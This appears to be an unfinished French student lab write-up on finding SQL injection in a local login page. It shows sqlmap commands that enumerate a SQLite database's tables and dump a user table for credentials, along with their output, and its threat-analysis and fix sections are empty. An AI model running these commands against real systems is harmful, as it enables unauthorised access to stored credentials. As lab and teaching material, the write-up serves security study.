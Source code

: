 # Projet 2

## Identification des failles 

En effectuant un premier test avec sqlmap on peut constater plusieurs choses. Nous avons la liste des tables, le type de la base (SQLite) et le nom de la base de données. On peut modifier les requêtes en conséquences. 

Apparemment la version SLQlite serait vulnérable aux injection UNION et à 

 **POST parameter 'txt_uname' is vulnerable** 

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --tables --forms --crawl=2 --level=5 --risk=3

Database: SQLite_masterdb
[3 tables]
+-----------------+
| message         |
| sqlite_sequence |
| userSti         |
+-----------------+
```

Nous allons maintenant essayé de faire un dump de la table `userSti` afin de savoir si elle contient des credentials. On voit qu'il  y a 4 entrées utilisateur dans la table  userSti.

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --dbms=SQLite -D SQLite_masterdb -T userSti --dump --forms --crawl=2 --level=5 --risk=3
+----+
| id |
+----+
| 1  |
| 2  |
| 3  |
| 5  |
+----+
```



## Analyse de menace 

## Correctif logiciel 

